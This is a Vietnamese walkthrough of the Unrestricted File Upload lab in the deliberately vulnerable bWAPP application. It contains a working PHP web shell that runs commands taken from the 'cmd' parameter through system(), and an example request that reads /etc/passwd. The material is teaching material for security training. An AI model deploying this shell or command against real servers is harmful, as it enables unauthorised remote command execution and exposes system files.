

# bWAPP: Unrestricted File Upload
## Mô tả bài lab
bWAPP (Buggy Web Application) là một ứng dụng web có nhiều lỗ hổng bảo mật, bao gồm cả lỗi bảo mật về File Upload, được thiết kế nhằm mục đích giáo dục và đào tạo về an ninh mạng. Nó được phát triển bởi nhóm bảo mật ITsec Games và là một công cụ mã nguồn mở. bWAPP giúp các nhà phát triển, người kiểm tra bảo mật (pentester), và sinh viên nghiên cứu cách thức phát hiện, khai thác và khắc phục các lỗ hổng bảo mật phổ biến trên các ứng dụng web.

## Các bước thực hiện

1. Khởi động bWAPP là log in bằng tài khoản user mặc định `bee:bug`.
2. Trên giao diện chính, chọn `Unrestricted File Upload` và chọn **Hack**.



3. Tạo file `file_upload_bWAPP.php`, file này sẽ được sử dụng để thực hiện lệnh gọi cmd trên ứng dụng web.

```php
<?php
	if(isset($_REQUEST['cmd'])){
	        echo "<pre>";
	        $cmd = ($_REQUEST['cmd']);
	        system($cmd);
	        echo "</pre>";
	        die;
	}
?>
```

4. Sử dụng **Browse** trên giao diện trang web để xác định vị trí file muốn upload, sau đó chọn **Submit**. Ứng dụng sẽ trả về thông báo upload thành công.
5. Chọn **here** trên thông báo để chuyển hướng tới file đã được upload, từ đây ta có thể thay đổi nội dung trên url để thực hiện các lệnh trên cmd. Ví dụ có thể điền thêm vào phía sau url nội dung như `?cmd=cat+/etc/passwd`.


